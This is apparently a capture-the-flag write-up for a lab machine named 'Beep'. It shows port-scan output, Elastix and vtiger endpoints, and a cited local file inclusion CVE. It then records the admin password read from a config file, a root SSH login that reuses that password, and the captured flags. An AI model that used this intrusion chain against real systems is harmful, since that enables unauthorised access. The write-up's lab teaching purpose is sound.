









# Beep

## SYN Scan
```
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)

Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
```

## Elastix



Elastix is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing.

### IP PBX
An IP PBX is a system that connects telephone extensions to the public switched telephone network and provides internal communication for a business. An IP PBX is a PBX system with IP connectivity and may provide additional audio, video, or instant messaging communication utilizing the TCP/IP protocol stack.


## RoundCube Webmail
`/mail`



## FreeBPX (HylaFAX) User Portal
`/recordings`



## FreeBPX (HylaFAX) Admin Panel
`/admin`



## Webmin (MinServ)
Port: `10000`



https://doxfer.webmin.com/Webmin/Installing_Webmin =>
**You should be able to login as root, using the same password as the root Unix user on your Linux system. However, if you change the Unix root password in future the Webmin root user will not change.**

## vtiger CRM


## Local File Inclusion
`vtiger CRM 5.1.0` is vulnerable to local file inclusion.

CVE => 2012-4867

https://www.exploit-db.com/exploits/18770



## The User Flag



```
09176c93dc65a9a44111e63a5f790e79
```

## Elastix Admin Password
Found admin's password in `/etc/amportal.conf`.



```
admin: jEhdIekWmdjE
```

## SSH Using Elastix Admin Password
```
root: jEhdIekWmdjE
```

```
$ ssh root@10.10.10.7 -o StrictHostKeyChecking=no -oKexAlgorithms=+diffie-hellman-group1-sha1
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

## The Root Flag
```
[root@beep ~]# cd /root
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt
3d67afce45e84d7f06ce259fabcaee9a
```
